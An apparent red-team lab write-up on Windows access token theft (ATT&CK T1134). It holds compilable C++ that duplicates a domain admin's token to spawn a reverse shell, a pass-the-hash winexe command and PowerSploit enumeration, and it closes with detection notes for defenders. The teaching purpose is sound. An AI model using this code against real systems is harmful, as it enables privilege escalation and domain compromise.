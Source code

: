```yaml
---
description: >-
  Defense Evasion, Privilege Escalation by stealing an re-using security access
  tokens.
---
```


# T1134: Primary Access Token Manipulation

## Context

One of the techniques of token manipulation is creating a new process with a token "stolen" from another process. This is when a token of an already existing access token present in one of the running processes on the victim host, is retrieved, duplicated and then used for creating a new process, making the new process assume the privileges of that stolen token.

A high level process of the token stealing that will be carried out in this lab is as follows:

| Step | Win32 API |
| :--- | :--- |
| Open a process with access token you want to steal | `OpenProcess` |
| Get a handle to the access token of that process | `OpenProcesToken` |
| Make a duplicate of the access token present in that process | `DuplicateTokenEx` |
| Create a new process with the newly aquired access token | `CreateProcessWithTokenW` |

## Weaponization

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal the token from, since it is running as a domain admin and makes it for a good target:

![A victim cmd.exe process that is running under the context of DC admin offense\administrator](../../.gitbook/assets/tokens-victim-3060.png)

Note the line 16, which specifies the executable that should be launched with an impersonated token, which in our case effectively is a simple netcat reverse shell calling back to the attacking system:

![](../../.gitbook/assets/tokens-shell-c++.png)

This is the code if you want to compile and try it yourself:

{% code title="tokens.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
    char a;
    HANDLE processHandle;
    HANDLE tokenHandle = NULL;
    HANDLE duplicateTokenHandle = NULL;
    STARTUPINFO startupInfo;
    PROCESS_INFORMATION processInformation;
    DWORD PID_TO_IMPERSONATE = 3060;
    wchar_t cmdline[] = L"C:\\shell.cmd";
    ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
    ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
    startupInfo.cb = sizeof(STARTUPINFO);    

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
    OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
    DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);            
    CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);

    std::cin >> a;
    return 0;
}
```
{% endcode %}

## Execution

Launching `Tokens.exe` from the powershell console spawns a reverse shell that the attacker catches. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token theft:

![](../../.gitbook/assets/token-shell-impersonated.png)

The logon for OFFESNE\administrator in the above test was of logon type 2 \(interactive logon, meaning I launched a new process on the victim system using a `runas /user:administrator@offense cmd` command\).

Another quick test that I wanted to do was a theft of an access token that was present in the system due to a network logon \(i.e psexec, winexec, pth-winexe, etc\), so I spawned a cmd shell remotely from the attacking machine to the victim machine using:

{% code title="attacker@local" %}
```text
pth-winexe //10.0.0.2 -U offense/administrator%pass cmd
```
{% endcode %}

which created a new process on the victim system with a PID of 4780:

![](../../.gitbook/assets/tokens-winexe.png)

Enumerating all the access tokens on the victim system with PowerSploit:

```csharp
Invoke-TokenManipulation -ShowAll | ft -Wrap -Property domain,username,tokentype,logontype,processid
```

...gives the below. Note the available token \(highlighted\) - it is the cmd.exe from above screenshot and its logon type is as expected - 3 - a network logon:

![](../../.gitbook/assets/tokens-all.png)

This token again can be stolen the same way we did it earlier. Let's change the PID in `Tokens.cpp` of the process we want to impersonate to `4780`:

![](../../.gitbook/assets/tokens-new-pid.png)

Running the compiled code invokes a new process with the newly stolen token:

![](../../.gitbook/assets/tokens-new-shell.png)

note the cmd.exe has a PID 5188 - if we rerun the `Invoke-TokenManipulation`, we can see the new process is using the access token with logon type 3:

![](../../.gitbook/assets/token-new-logon-3%20%281%29.png)

## Observations

Imagine you were investigating the host we stole the tokens from, because it exhibited some anomalous behaviour. In this particularly contrived example, since `Tokens.exe` was written to the disk on the victim system, you could have a quick look at its dissasembly and conclude it is attempting to manipulate access tokens - note that we can see the victim process PID and the CMDLINE arguments:

![](../../.gitbook/assets/token-disasm.png)

As suggested by the above, you should think about API monitoring if you want to detect these token manipulations on endpoints, but beware - this can be quite noisy.

Windows event logs of IDs `4672` and `4674` may be helpful for you as a defender also - below shows a network logon of a `pth-winexe //10.0.0.2 -U offense/administrator%pass cmd` and then later, a netcat reverse shell originating from the same logon session:

![](../../.gitbook/assets/token-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1134" caption="" %}

{% embed url="https://digital-forensics.sans.org/blog/2012/03/21/protecting-privileged-domain-accounts-access-tokens" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/SecGloss/p-gly\#-security-primary-token-gly" caption="" %}

{% embed url="https://technet.microsoft.com/pt-pt/library/cc783557%28v=ws.10%29.aspx?f=255&MSPPError=-2147217396" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/secauthz/access-tokens" caption="" %}

{% embed url="https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/" caption="" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa446671\(v=vs.85\).aspx" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createprocesswithtokenw" caption="" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa446617\(v=vs.85\).aspx" caption="" %}

{% embed url="https://www.youtube.com/watch?v=Ed\_2BKn3QR8" caption="" %}

[https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf)

